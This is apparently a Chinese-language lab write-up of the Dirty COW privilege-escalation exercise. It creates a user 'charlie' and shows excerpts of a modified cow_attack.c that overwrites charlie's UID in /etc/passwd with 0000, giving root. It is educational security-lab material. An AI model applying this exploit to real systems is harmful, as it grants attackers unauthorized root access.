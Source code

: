 ![image-20220322150508995](DirtyCOW/image-20220322150508995.png)

### 创建账户

```bash
sudo adduser charlie
```

![image-20220322150255509](DirtyCOW/image-20220322150255509.png)

查看

```bash
cat /etc/passwd | grep charlie
```

![image-20220322150318651](DirtyCOW/image-20220322150318651.png)

> 任务：您需要修改 `/etc/passwd `中的 `charlie` 条目，因此第三个字段从 1001 更改为 0000，实质上将 `charlie `变成了一个 `root `帐户。该文件对 Charlie 来说是不可写的，但是我们可以使用 Dirty COW 攻击来写入此文件。您可以从任务 1 修改 `cow_attack.c `程序来实现此目标。

### 修改程序

```c
  // Open the target file in the read-only mode.
  int f = open("/etc/passwd", O_RDONLY); //line 18
...
  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");  //line 26
...
void *writeThread(void *arg)
{
  char *content = "charlie:x:0000";  //line 40
  off_t offset = (off_t)arg;

...
```